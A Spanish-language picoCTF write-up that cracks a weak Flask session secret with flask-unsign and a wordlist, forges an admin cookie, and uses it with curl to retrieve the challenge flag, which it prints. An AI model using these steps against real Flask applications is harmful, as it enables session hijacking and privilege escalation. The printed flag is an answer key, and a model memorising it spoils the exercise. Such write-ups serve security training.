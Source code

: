 ## Descripción
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/1e4bd835ad3e7fe776d49e7b8cc280c1/server.py) [http://mercury.picoctf.net:35697/](http://mercury.picoctf.net:35697/)
## Pistas
How secure is a flask cookie?
## Solución 1
1. Viendo las cookies del sitio:
```
eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z_Vd3A.6Vrwv1sJ8zIekikAOa0AxZgb5XY
```
2. Podemos decodificarla 
```bash
echo eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z_ViLA._PsKl7iBBIF26yiTkgEOhdpgclM | base64 -d

{"very_auth":"snickerdoodle"}base64: invalid input

```
3. Al ver el codigo vemos que hay un arreglo donde estan los nombres de todas las galletas, y luego se toma una al azar para crear una llave para la cookie
4. Usando flask unsign probando con todas las galletas.
```bash
flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z_ViLA._PsKl7iBBIF26yiTkgEOhdpgclM" --wordlist galletas.txt
```
5. Vemos que la clave de es: `peanut butter`
6. Ahora firmamos nosotros la cookie con la palabra secreta
```bash
flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret "peanut butter"
```
7. Usando la cookie resultado: `eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z_VjGA.9IYieHdvyHcC8EyXKLF4DCC9Pjk`
8. Probamos con la cookie
```bash
curl -s http://mercury.picoctf.net:35697/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z_VjGA.9IYieHdvyHcC8EyXKLF4DCC9Pjk" | grep pico
```
9. Obtenemos la bandera
`picoCTF{pwn_4ll_th3_cook1E5_22fe0842}`
## Notas adicionales

## Referencias
